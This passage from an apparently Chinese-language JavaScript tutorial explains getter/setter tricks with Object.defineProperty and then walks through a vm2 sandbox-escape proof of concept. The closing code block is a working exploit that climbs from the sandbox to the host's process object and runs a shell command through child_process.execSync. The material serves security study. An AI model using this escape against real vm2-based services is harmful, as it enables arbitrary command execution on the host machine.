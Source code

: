             
            --------------------- 另一个用法 --------------------
            
            let obj1 = {};
            
            // 此时会先执行一次get()函数打印出 get1，同时设置prop属性的值为 ()=>{return "get2"};
            // 等于说这个prop属性中设置了一个get函数，而get函数体内部还是一个get函数
            Object.defineProperty(obj1, "prop", {
                get get(){
                    console.log("get1"); 
                    return ()=>{return "get2"};
                }
            })
            // 之后调用obj1.prop都只会输出get2，也就是()=>{return "get2"};的执行结果
            console.log(obj1.prop); 
            
            --------------------- 同理另一个用法 --------------------
            let obj = {};
            
            // 此时会先执行一次set()函数打印出 set1，同时设置prop属性的值为 (val)=>{console.log("set2")} 
            Object.defineProperty(obj, "prop", {
                get set(){
                    console.log("set1");
                    return (val)=>{console.log("set2")};
                }
            })
            
            // 之后给prop赋值就会打印 set2;也就是(val)=>{console.log("set2")} 的执行结果
            obj.prop = 1
            
            ```

            

-   **内部属性**

    -   内部属性是 JavaScript 引擎内部使用的属性，不能直接访问它们，
    -   例如：`Prototype`，想要访问`Prototype`得使用`__proto__`



>   那么回过头来看vm2逃逸的代码

```js
"use strict";
const {VM} = require('vm2');

// Object.defineProperty() 是用于在对象上定义一个新属性，或修改已有的属性。
// 语法：Object.defineProperty(obj, prop, descriptor)
// 其中，obj 是需要定义属性的对象，
//		prop 是需要定义或修改的属性名，
//		descriptor 是一个 JavaScript 对象
const untrusted = `var process;
try{
    Object.defineProperty(Buffer.from(""), "", {get set(){
        Object.defineProperty(Object.prototype,"get",{get(){
            throw x=>x.constructor("return process")();
        }});
        return ()=>{};
    }});
}catch(e){
    process = e(()=>{});
}
process.mainModule.require("child_process").execSync("id").toString();`;
try{
    console.log(new VM().run(untrusted));
}catch(x){
    console.log(x);
}

```